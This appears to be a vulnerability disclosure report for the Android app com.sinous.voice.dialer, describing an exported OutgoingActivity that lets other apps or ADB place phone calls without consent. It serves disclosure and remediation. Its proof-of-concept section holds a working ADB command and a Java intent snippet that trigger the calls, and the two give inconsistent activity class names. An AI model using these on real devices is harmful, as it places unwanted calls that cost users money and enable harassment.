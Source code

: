 
# Vulnerability Report:
Unauthorized Call Initiation in com.sinous.voice.dialer App

## Summary
A  security vulnerability was identified in the `com.sinous.voice.dialer` Android application, version 1.2.5. The vulnerability allows for unauthorized initiation of phone calls from external sources without user interaction or consent.

## Details
https://play.google.com/store/apps/details?id=com.sinous.voice.dialer
### Affected Application
- **Name**: com.sinous.voice.dialer [https://play.google.com/store/apps/details?id=com.sinous.voice.dialer]
- **Version**: 1.2.5
- **Permissions Required**: None

### Description
The vulnerability resides in the exported `OutgoingActivity` component of the application. This activity is improperly exposed to external intent calls, enabling any application or ADB command to trigger phone calls directly.

### Impact
- **Unauthorized Calls**: Malicious entities can exploit this vulnerability to make unauthorized calls, which could lead to financial losses or privacy breaches.
- **User Consent Bypass**: The application fails to obtain explicit user consent before initiating calls, violating Android's privacy and security principles.
- **Potential Abuse**: There is a high risk of exploitation for harmful purposes, including spam calls or harassment.

### Proof of Concept
The following ADB command demonstrates the vulnerability:

```sh
adb shell am start -a android.intent.action.CALL -d tel:7168444444 -n com.sinous.voice.dialer/com.funprime.calldialer.ui.activities.OutgoingActivity
```
OR

```
   private void initiateCall() {
        Intent callIntent = new Intent(Intent.ACTION_CALL);
        callIntent.setData(Uri.parse("tel:1234567890")); // Replace with the number you want to call
        callIntent.setClassName("com.sinous.voice.dialer", 
                                "com.sinous.voice.dialer.OutgoingActivity");
        startActivity(callIntent);
    }
```
Executing this command initiates a phone call to the specified number without user interaction.

### Steps to Reproduce
1. Connect an Android device with USB debugging enabled.
2. Run the above ADB command.
3. Observe that a phone call is initiated without any user interaction.

### Recommendations
- **Restrict Activity Export**: Modify the app's manifest to ensure `OutgoingActivity` is not exported, or strictly filter incoming intents.
- **Implement User Consent**: Ensure that any action leading to a phone call requires explicit user consent.
- **Conduct Security Audit**: Review the application to identify and fix similar vulnerabilities.


---

